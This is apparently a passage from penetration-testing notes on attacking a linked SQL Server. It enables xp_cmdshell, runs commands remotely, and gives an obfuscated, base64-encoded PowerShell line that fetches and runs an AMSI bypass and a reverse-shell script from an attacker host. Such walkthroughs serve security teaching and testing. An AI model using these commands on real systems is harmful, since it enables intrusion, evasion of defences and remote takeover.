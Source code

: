 8\. The value `0` means xp\_cmdshell is disabled. We can try to enable xp\_cmdshell with the following queries:

```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT "DATA01.SECURE.LOCAL"
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT "DATA01.SECURE.LOCAL"
```

9\. When we check if xp\_cmdshell is enabled we see it is enabled now.

![](<../../../.gitbook/assets/afbeelding (46).png>)

10\. We can execute commands using the EXECUTE function.

```
EXECUTE('exec master..xp_cmdshell ''whoami''') AT "DATA01.SECURE.LOCAL"
```

![](<../../../.gitbook/assets/afbeelding (44) (1).png>)

11\. We could get a reverse shell by executing the following query using the technique from:

{% content-ref url="../../misc/reverse-shell-trick.md" %}
[reverse-shell-trick.md](../../misc/reverse-shell-trick.md)
{% endcontent-ref %}

```
EXECUTE('exec master..xp_cmdshell ''powershell.exe -w hidden -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADIANAA4AC4AMgA6ADgAMAA5ADAALwBhAG0AcwBpAC4AdAB4AHQAIgApADsAIABpAGUAeAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMgA0ADgALgAyADoAOAAwADkAMAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQA=''') AT "DATA01.SECURE.LOCAL"
```

![](<../../../.gitbook/assets/afbeelding (44).png>)
